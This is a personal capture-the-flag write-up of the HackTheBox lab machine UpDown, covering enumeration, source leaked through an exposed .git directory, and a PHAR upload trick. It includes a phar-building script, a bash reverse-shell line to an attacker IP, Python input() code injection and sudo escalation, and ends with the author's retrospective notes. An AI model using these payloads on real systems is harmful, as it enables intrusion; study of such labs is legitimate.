







# UpDown

- **Author:** Julien Bongars
- **Date:** 2026-02-10 22:15:24
- **Path:** /home/julien/.hacklas/./targets/track-oscp/UpDown

---

link = https://app.hackthebox.com/machines/UpDown

ip = 10.129.227.227

# Description

UpDown is a medium difficulty Linux machine with SSH and Apache servers exposed. On the Apache server a web application is featured that allows users to check if a webpage is up. A directory named .git is identified on the server and can be downloaded to reveal the source code of the dev subdomain running on the target, which can only be accessed with a special HTTP header. Furthermore, the subdomain allows files to be uploaded, leading to remote code execution using the phar:// PHP wrapper. The Pivot consists of injecting code into a SUID Python script and obtaining a shell as the developer user, who may run easy_install with Sudo, without a password. This can be leveraged by creating a malicious python script and running easy_install on it, as the elevated privileges are not dropped, allowing us to maintain access as root.

## phar://

PHAR (PHP Archive) is a packaging format for PHP — essentially the PHP equivalent of Java's JAR files. It bundles an entire PHP application or library into a single archive file (.phar).
Why it matters for security:
PHP has a phar:// stream wrapper that allows reading files inside a PHAR archive. The critical issue is that when PHP processes a PHAR file via phar://, it automatically deserializes the archive's metadata. If an attacker can:

Upload a crafted PHAR file (even disguised with a different extension like .jpg or .png)
Trigger a file operation that uses the phar:// wrapper on that file (e.g., file_exists(), getimagesize(), file_get_contents(), etc.)

…then the deserialization of the metadata can execute arbitrary code — this is the PHAR deserialization attack.
In short: PHAR is a legitimate PHP feature, but its automatic deserialization behavior turns any file operation that accepts user-controlled paths into a potential remote code execution (RCE) vector if an attacker can upload a crafted file.

# Port scanning

**rustscan**

```bash
rustscan -a "$IP_ADDRESS" -ulimit 5000 -- -sC -sV -oA "/home/julien/.hacklas/./targets/track-oscp/UpDown/nmap/quick"
```

**nmap**

```bash
nmap -sC -sV -p- -oA "/home/julien/.hacklas/./targets/track-oscp/UpDown/nmap/full" "$IP_ADDRESS"
```

# Enumeration

## Background

There was a `/dev` and a `/server-status` path that was up

```bash
└──╼ $ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://updown.htb'
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://updown.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/dev                  (Status: 301) [Size: 306] [--> http://updown.htb/dev/]
/server-status        (Status: 403) [Size: 275]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
```

`.git` page was found in `/dev/.git` downloaded the src code

```bash
```

## Website

Site appears to be a UI to detect whether a site is down:



Checking the request on burpsuite, we get a post. Running the post, we get a "hacking is detected"

request:

```request
POST / HTTP/1.1
Host: updown.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:146.0) Gecko/20100101 Firefox/146.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://updown.htb/
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://updown.htb
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

site=google.com
```

response:

```html
    <div id="main_content_wrap" class="outer">
      <section id="main_content" class="inner">
        <form method="POST">
			<label>Website to check:</label><br><br>
			<input type="text" name="site" value="" placeholder="http://google.com">
			<input type="checkbox" id="debug" name="debug" value="1">
			<label for="debug"> Debug mode  (On/Off) </label><br>
			<input type="submit" value="Check">
		</form>

<center><font color='red'>Hacking attempt was detected !</font></center>      </section>
    </div>html
```

> Didn't see this the first time around but if you start a webserver and you direct the website at your own address you get the following
>
> ```bash
> └──╼ $ echo "hello there" | sudo nc -lvnp 80
>
> Listening on 0.0.0.0 80
>
>
> Connection received on 10.129.227.227 50956
> GET / HTTP/1.1
> Host: 10.10.14.97
> User-Agent: siteisup.htb
> Accept: */*
> ```
>
> Notice that the `User-Agent` is `siteisup.htb`
>
> You can also use this to check internal localhost requests such as `http://127.0.0.1`
> 

was able to download the source code from `/dev/.git/` looking at the source code, there is a `page` argument.

```php
<b>This is only for developers</b>
<br>
<a href="?page=admin">Admin Panel</a>
<?php
	define("DIRECTACCESS",false);
	$page=$_GET['page'];
	if($page && !preg_match("/bin|usr|home|var|etc/i",$page)){
		include($_GET['page'] . ".php");
	}else{
		include("checker.php");
	}	
?>
```

--- There was a break of 2 days

Using burpsuite, managed to get access to the beta page





now we can upload files and it looks like we can view files with the `?page=...` argument.

## dev.siteisup.htb

Setting `?page=index` just keeps adding itself to itself (a huge mistake)



We recall that the script will append a `.php` extension at the end of it. We can try to append a php file and see if this works

```php
<b>This is only for developers</b>
<br>
<a href="?page=admin">Admin Panel</a>
<?php
	define("DIRECTACCESS",false);
	$page=$_GET['page'];
	if($page && !preg_match("/bin|usr|home|var|etc/i",$page)){
		include($_GET['page'] . ".php");
	}else{
		include("checker.php");
	}	
?>
```

however we are also not allowed to upload any files ending in `.php`

```php
if($_post['check']){
    ...
	# check if extension is allowed.
	$ext = getextension($file);
	if(preg_match("/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i",$ext)){
		die("extension not allowed!");
	}
}
```

it looks like files maybe uploaded to `/uploads`

```php
$dir = "uploads/".md5(time())."/";
if(!is_dir($dir)){
       mkdir($dir, 0770, true);
```

we have a directory index!



se a problem we have is we can view php files but we cannot upload php files. this is where the `phar://` protocol comes from maybe.

created a phar using the following script:-

```php
<?php
/* $attacker_ip='10.10.14.97'; */
/* $attacker_port='4444'; */
$jpeg_artifact="./avatar.jpg";

$phar = new Phar('attack.phar');
$phar->startBuffering();

/* $shell = "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/" . $attacker_ip . "/" . $attacker_port . " 0>&1\"'); ?>"; */
$shell = file_get_contents('./php-reverse-shell.php');
$phar->addFromString('attack.php', $shell);

$info = "<?php phpinfo() ?>";
$phar->addFromString('info.php', $info);

$dangerous_fn = file_get_contents('./php-dangerous-functions.php');
$phar->addFromString('danger.php', $dangerous_fn);

/* $jpeg = file_get_contents($jpeg_artifact); */
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$phar->stopBuffering();
```

we are able to get phpinfo() to run



we get a list of dangerous functions that are able to run on this server:-

```txt
=== Dangerous PHP Functions Check === PHP Version: 8.0.20 --- CALLABLE --- 
 - proc_open 
 - assert 
 - call_user_func 
 - call_user_func_array 
 - preg_replace_callback 
 - spl_autoload_register 
 - register_shutdown_function 
 - register_tick_function 
 - set_error_handler 
 - set_exception_handler 
 - array_map 
 - array_filter 
 - array_reduce 
 - array_walk 
 - array_walk_recursive 
 - usort 
 - uasort 
 - uksort 
 - iterator_apply 
 - ob_start 
 - phpinfo 
 - posix_mkfifo 
 - posix_getlogin 
 - posix_ttyname 
 - getenv 
 - get_current_user 
 - proc_get_status 
 - get_cfg_var 
 - disk_free_space 
 - disk_total_space 
 - getcwd 
 - getmygid 
 - getmyinode 
 - getmypid 
 - getmyuid 
 - fopen 
 - tmpfile 
 - gzopen 
 - chgrp 
 - chmod 
 - chown 
 - copy 
 - file_put_contents 
 - mkdir 
 - move_uploaded_file 
 - rename 
 - rmdir 
 - tempnam 
 - touch 
 - unlink 
 - file_get_contents 
 - file 
 - readfile 
 - parse_ini_file 
 - highlight_file 
 - show_source 
 - php_strip_whitespace 
 - ftp_get 
 - ftp_put 
 - extract 
 - parse_str 
 - putenv 
 - ini_set 
 - header 
 - proc_nice 
 - proc_terminate 
 - proc_close 
 - pfsockopen 
 - posix_kill 
 - posix_setpgid 
 - posix_setsid 
 - posix_setuid
```

We are able to get a reverse shell by modifying our backdoor

```php
<?php call_user_func("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.97/4444 0>&1'"); ?>
```

once you get a shell, you have to go to /home/developer/dev or something like that

there is a python 2 file that get run by a program with a SUID bit set as developer you have to use the exploit

> Python 2 input() is basically eval() - use **import**("os").system("/bin/bash")

and you are dev. Then there is so `easysetup` tool or something you have sudo to so you get root.

then that's it. I am done with this box. I set myself free.

I'm going to quit HTB for a few months to go to a platform that actually respects me as someone who is learning instead of being called "noob" because I use walkthroughs.

to hell with this.

# Retrospectives

## Web enumeration

When you encounter any field for address, you should automatically think to enter localhost or your own IP address. There is a section where the website reports whether a website is up or down but this was not enumerated properly. You could have started a web server to see what request the server was sending to the address and whether you can use the address to test port listening to port 127.0.0.1.

## Did not nutice subdomain in the Git Logs

In the git logs you should read the commit messages. One of the messages was "...to secure our dev subdomain" this suggests the existance of a subdomain. A bit bullshit but can slow down when examining git messages in the future

The other place you could have gotten the subdomain was the callback from the website when you started your own webserver and included your ip in the website. The header: User-Agent would have clued you in as well. Probably a difficult thing to spot though...

## DO NOT use Gobuster

Don't use it for dir enumeration. It's slow and does not spider. Do not use if for vhost as the automatic resolution is bullshit. Use ffuf and ferobuster from now on. Gobuster is no longer part of your vocabulary. Added a reminder to ~/.bashrc

## .htcaccess

Didn't really know this but you can require headers to servers. I remember I couldn' get this working on the day but I will try again. Remember, don't fall into black holes either. You didn't really during this engagement but you almost did. Stay weary!

## HTTP Requests Need at least 2 blank lines in the end

the `dev.siteisup.htb` enumeration was failing because you need to have 2 blank lines at the bottom of HTTP requests

# Creds

-

# References

-
